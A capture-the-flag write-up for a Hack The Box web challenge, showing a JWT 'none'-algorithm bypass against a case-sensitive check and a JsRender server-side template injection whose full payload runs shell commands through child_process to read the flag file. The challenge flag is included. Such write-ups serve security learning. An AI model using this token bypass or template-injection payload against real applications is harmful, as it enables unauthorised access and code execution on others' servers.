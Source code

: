 # web/Didactic Octo Paddle

### Description
> You have been hired by the Intergalactic Ministry of Spies to retrieve a powerful relic that is believed to be hidden within the small paddle shop, by the river. You must hack into the paddle shop's system to obtain information on the relic's location. Your ultimate challenge is to shut down the parasitic alien vessels and save humanity from certain destruction by retrieving the relic hidden within the Didactic Octo Paddles shop.

After opening website we can see login page and we can find register page.
![didactic_octo_paddle1](/2023/Cyber_Apocalypse/web/images/didactic_octo_paddle1.png)
![didactic_octo_paddle2](/2023/Cyber_Apocalypse/web/images/didactic_octo_paddle2.png)

By trying to register as admin we understand that user exists
![didactic_octo_paddle3](/2023/Cyber_Apocalypse/web/images/didactic_octo_paddle3.png)

Logging in gives us access to items list, with nothing interesting and JWT token. It uses HS256 and contains id
![didactic_octo_paddle4](/2023/Cyber_Apocalypse/web/images/didactic_octo_paddle4.png)

We can look up how it works in source code
![didactic_octo_paddle5](/2023/Cyber_Apocalypse/web/images/didactic_octo_paddle5.png)

It checks for “none” algorithm but only in lowercase. It can be abused

jwt_tool confirms it (with id set to 1)
![didactic_octo_paddle6](/2023/Cyber_Apocalypse/web/images/didactic_octo_paddle6.png)
*1148 byte response is redirect to login page*

On admin page we have list of active users
![didactic_octo_paddle7](/2023/Cyber_Apocalypse/web/images/didactic_octo_paddle7.png)

It is implemented by this string:

			`res.render("admin", {
               users: jsrender.templates(`${usernames}`).render(),
           });`

Which is vulnerable to SSTI using this payload(**":"** added because website uses JsRender):
`{{:7*7}}`

And then we construct payload to read file.txt and open admin page
`{"username":"{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat ../flag.txt').toString()\")()}}","password":"123"}`

*HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}*

